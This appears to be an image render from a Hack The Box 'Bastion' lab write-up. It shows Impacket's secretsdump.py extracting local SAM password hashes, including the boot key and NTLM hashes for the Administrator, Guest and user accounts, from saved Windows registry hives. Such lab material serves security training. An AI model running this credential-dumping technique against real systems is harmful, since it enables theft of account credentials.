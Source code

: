 # Sam Windows

root@Seyptoo:~/htb/box/Bastion# secretsdump.py -debug -sam sam_windows -system system_windows LOCAL
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

[+] Retrieving class info for JD
[+] Unknown type 0xe
[+] Retrieving class info for Skew1
[+] Unknown type 0xb
[+] Retrieving class info for GBG
[+] Unknown type 0x8
[+] Retrieving class info for Data
[+] Unknown type 0x6
[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
[+] Calculating HashedBootKey from SAM
[+] NewStyle hashes is: False
Administrator:500:NONE:NONE:::
[+] NewStyle hashes is: False
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] NewStyle hashes is: False
Seyptoo:1000:aad3b435b51404eeaad3b435b51404ee:ee7e0b247f06ef203cf92ad55eeb2d13:::
[*] Cleaning up... 
